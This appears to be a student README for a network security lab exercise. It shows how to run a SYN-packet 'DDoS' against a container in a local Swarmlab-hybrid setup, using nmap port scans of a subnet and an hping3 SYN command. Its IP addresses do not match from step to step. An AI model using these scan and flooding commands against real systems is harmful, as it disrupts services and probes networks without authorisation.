 # Network & Communication Security Project (DDoS Attack)

DDoS attack performed step by step.

1) First of all we start Swarmlab-hybrid by typing the following 2 commands in terminal

    cd swarmlab-hybrid

     ./start.sh

2) Then we go to http://localhost:3088/ -> Instances -> Container -> Select dummy_service -> Connect -> Run in terminal "docker exec -it dummy_service /bin/sh"

3) After that we proceed inside the terminal by typing the following commands
$ docker exec -it dummy_service /bin/sh
$ ifconfig //(in order to find the inet addr we are looking for , in my case it was 172.21.0.2 )
$ nmap -p- 172.22.0.* //With this command we scan for open ports , in my case it was 3001
$ sudo hping3 -S 172.22.0.2 -p 3001
